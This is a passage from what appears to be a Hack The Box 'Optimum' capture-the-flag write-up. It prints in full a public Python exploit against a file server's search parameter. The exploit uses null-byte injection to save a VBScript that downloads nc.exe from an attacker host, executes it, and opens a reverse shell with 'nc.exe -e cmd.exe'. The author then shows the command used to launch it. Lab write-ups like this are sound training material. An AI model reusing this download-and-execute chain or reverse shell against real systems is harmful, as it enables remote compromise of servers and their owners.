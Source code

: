 ```python
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

This looked more promising as it had an actual payload. I changed the IP and port, and ran it.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ python2 39161.py 10.10.10.8 80
```
